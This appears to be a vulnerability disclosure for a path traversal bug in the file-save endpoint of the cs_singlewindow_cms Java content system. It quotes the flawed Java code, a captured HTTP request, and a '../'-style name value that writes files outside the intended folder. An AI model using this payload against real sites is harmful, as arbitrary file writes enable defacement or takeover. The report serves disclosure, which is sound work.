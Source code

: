 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:save")
	@RequestMapping(value = "save.do", method = RequestMethod.POST)
	public String save(String parentId, String name, String text, String redirect, HttpServletRequest request,
			HttpServletResponse response, RedirectAttributes ra) throws IOException {
		return super.save(parentId, name, text, redirect, request, response, ra);
	}
```

Function implementation:

```java
	protected String save(String parentId, String name, String text, String redirect, HttpServletRequest request,
			HttpServletResponse response, RedirectAttributes ra) throws IOException {
		Site site = Context.getCurrentSite();
		String base = getBase(site);

		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI");
		}
		FileHandler fileHandler = getFileHandler(site);
		fileHandler.store(text, name, parentId);
		logService.operation("opr.webFile.add", parentId + "/" + name, null, null, request);
		logger.info("save file, name={}.", parentId + "/" + name);
		ra.addFlashAttribute("refreshLeft", true);
		ra.addAttribute("parentId", parentId);
		ra.addFlashAttribute(MESSAGE, SAVE_SUCCESS);
		if (Constants.REDIRECT_LIST.equals(redirect)) {
			return "redirect:list.do";
		} else if (Constants.REDIRECT_CREATE.equals(redirect)) {
			return "redirect:create.do";
		} else {
			ra.addAttribute("id", parentId + "/" + name);
			return "redirect:edit.do";
		}
	}
```

​	Only the parentId is filtered but not the name parameter, so there is directory penetration, create a new document, enter success, and then capture the packet.

```http
POST /cmscp/core/web_file_2/save.do HTTP/1.1
Host: 172.21.87.148:8888
Content-Length: 89
Cache-Control: max-age=0
Origin: http://172.21.87.148:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.21.87.148:8888/cmscp/core/web_file_2/create.do?parentId=%2F1&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=CA7DD070F74CFE10991C0475CE82606D
Connection: close

origName=&parentId=%2F1&position=&redirect=edit&name=test.html&baseName=test&text=success
```

​	Change the name parameter to .. /.. /.. /.. /.. /test.html to create a test.html file in the root directory of the project.

![image-20241210121816150](img/image-20241210121816150.png)